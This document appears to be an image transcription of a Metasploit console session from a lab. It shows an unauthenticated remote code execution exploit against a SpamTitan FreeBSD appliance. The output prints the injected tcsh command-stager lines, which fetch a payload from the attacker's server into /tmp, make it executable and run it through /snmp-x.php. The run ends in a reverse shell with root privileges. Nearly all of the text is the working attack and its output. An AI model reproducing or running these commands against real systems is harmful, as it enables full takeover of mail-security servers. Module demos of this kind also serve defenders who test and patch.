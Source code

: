 ```

   Id  Name
   --  ----
   1   FreeBSD Dropper (x64)


msf exploit(freebsd/webapp/spamtitan_unauth_rce) > run

[*] Started reverse TCP handler on 172.16.60.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[*] Check if /snmp-x.php exists
[+] The target appears to be vulnerable.
[*] Using URL: http://0.0.0.0:8080/AW6l3kjAO2B
[*] Local IP: http://192.168.1.75:8080/AW6l3kjAO2B
[*] Generated command stager: ["fetch -qo /tmp/BrnPtJiQ http://172.16.60.1:8080/AW6l3kjAO2B", "chmod +x /tmp/BrnPtJiQ", "/tmp/BrnPtJiQ", "rm -f /tmp/BrnPtJiQ"]
[*] Send a request to /snmp-x.php and inject the payload: /bin/tcsh -c 'fetch\ -qo\ /tmp/BrnPtJiQ\ http://172.16.60.1:8080/AW6l3kjAO2B&'#
[*] Send an SNMP Get-Request to trigger the payload
[*] Client 172.16.60.101 (fetch libfetch/2.0) requested /AW6l3kjAO2B
[*] Sending payload to 172.16.60.101 (fetch libfetch/2.0)
[+] SNMP Get-Request response (status=noError): [1] 16531
[*] Command Stager progress -  52.21% done (59/113 bytes)
[*] Send a request to /snmp-x.php and inject the payload: /bin/tcsh -c 'chmod\ \+x\ /tmp/BrnPtJiQ&'#
[*] Send an SNMP Get-Request to trigger the payload
[+] SNMP Get-Request response (status=noError): [1] 16561
[*] Command Stager progress -  71.68% done (81/113 bytes)
[*] Send a request to /snmp-x.php and inject the payload: /bin/tcsh -c '/tmp/BrnPtJiQ&'#
[*] Send an SNMP Get-Request to trigger the payload
[+] SNMP Get-Request response (status=noError): [1] 16590
[*] Command shell session 2 opened (172.16.60.1:4444 -> 172.16.60.101:16026) at 2020-10-28 15:57:34 +0100
[*] Command Stager progress -  83.19% done (94/113 bytes)
[*] Send a request to /snmp-x.php and inject the payload: /bin/tcsh -c 'rm\ -f\ /tmp/BrnPtJiQ&'#
[*] Send an SNMP Get-Request to trigger the payload
[+] SNMP Get-Request response (status=noError): [1] 16619
[*] Command Stager progress - 100.00% done (113/113 bytes)
[*] Server stopped.

id
uid=0(root) gid=0(wheel) groups=0(wheel),5(operator)
uname -a
FreeBSD spamtitan.example.com 10.1-RELEASE-p8 FreeBSD 10.1-RELEASE-p8 #1: Wed May  6 10:36:09 IST 2015     root@stbuild-10-amd64.spamtitan.com:/usr/obj/usr/src/sys/SPAMTITAN  amd64
^C
Abort session 2? [y/N]  y

[*] 172.16.60.101 - Command shell session 2 closed.  Reason: User exit
```
